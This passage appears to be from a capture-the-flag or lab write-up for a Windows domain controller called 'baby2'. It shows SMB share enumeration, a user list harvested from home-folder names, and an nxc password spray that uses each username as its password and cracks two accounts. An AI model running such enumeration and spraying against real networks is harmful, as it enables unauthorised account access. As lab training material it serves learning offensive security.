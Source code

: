     SMB         10.10.111.91    445    DC               C$                              Default share
    SMB         10.10.111.91    445    DC               docs

    SMB         10.10.111.91    445    DC               homes           READ,WRITE

    SMB         10.10.111.91    445    DC               IPC$            READ            Remote IPC
    SMB         10.10.111.91    445    DC               NETLOGON        READ            Logon server share

    SMB         10.10.111.91    445    DC               SYSVOL

we have READ,WRITE permissions for homes shares.

#### homes

    ➜  baby2 smbclient \\\\DC\\homes

    Password for [WORKGROUP\root]:
    Try "help" to get a list of possible commands.
    smb: \> ls
    .                                   D        0  Sun Jan 12 15:58:45 2025
    ..                                  D        0  Tue Aug 22 16:10:21 2023
    Amelia.Griffiths                    D        0  Tue Aug 22 16:17:06 2023
    Carl.Moore                          D        0  Tue Aug 22 16:17:06 2023
    Harry.Shaw                          D        0  Tue Aug 22 16:17:06 2023
    Joan.Jennings                       D        0  Tue Aug 22 16:17:06 2023
    Joel.Hurst                          D        0  Tue Aug 22 16:17:06 2023
    Kieran.Mitchell                     D        0  Tue Aug 22 16:17:06 2023
    library                             D        0  Tue Aug 22 16:22:47 2023
    Lynda.Bailey                        D        0  Tue Aug 22 16:17:06 2023
    Mohammed.Harris                     D        0  Tue Aug 22 16:17:06 2023
    Nicola.Lamb                         D        0  Tue Aug 22 16:17:06 2023
    Ryan.Jenkins                        D        0  Tue Aug 22 16:17:06 2023

users list

    ➜  baby2 cat smb-users.txt | awk '{print $1}'
    Amelia.Griffiths
    Carl.Moore
    Harry.Shaw
    Joan.Jennings
    Joel.Hurst
    Kieran.Mitchell
    library
    Lynda.Bailey
    Mohammed.Harris
    Nicola.Lamb
    Ryan.Jenkins
    ➜  baby2 cat smb-users.txt | awk '{print $1}' > users.txt

### username-spray

    ➜  baby2 nxc smb DC -u users.txt -p users.txt --continue-on-success --no-bruteforce
    SMB         10.10.111.91    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:baby2.vl) (signing:True) (SMBv1:False)
    SMB         10.10.111.91    445    DC               [-] baby2.vl\Amelia.Griffiths:Amelia.Griffiths STATUS_LOGON_FAILURE
    SMB         10.10.111.91    445    DC               [+] baby2.vl\Carl.Moore:Carl.Moore 
    SMB         10.10.111.91    445    DC               [-] baby2.vl\Harry.Shaw:Harry.Shaw STATUS_LOGON_FAILURE
    SMB         10.10.111.91    445    DC               [-] baby2.vl\Joan.Jennings:Joan.Jennings STATUS_LOGON_FAILURE
    SMB         10.10.111.91    445    DC               [-] baby2.vl\Joel.Hurst:Joel.Hurst STATUS_LOGON_FAILURE
    SMB         10.10.111.91    445    DC               [-] baby2.vl\Kieran.Mitchell:Kieran.Mitchell STATUS_LOGON_FAILURE
    SMB         10.10.111.91    445    DC               [+] baby2.vl\library:library 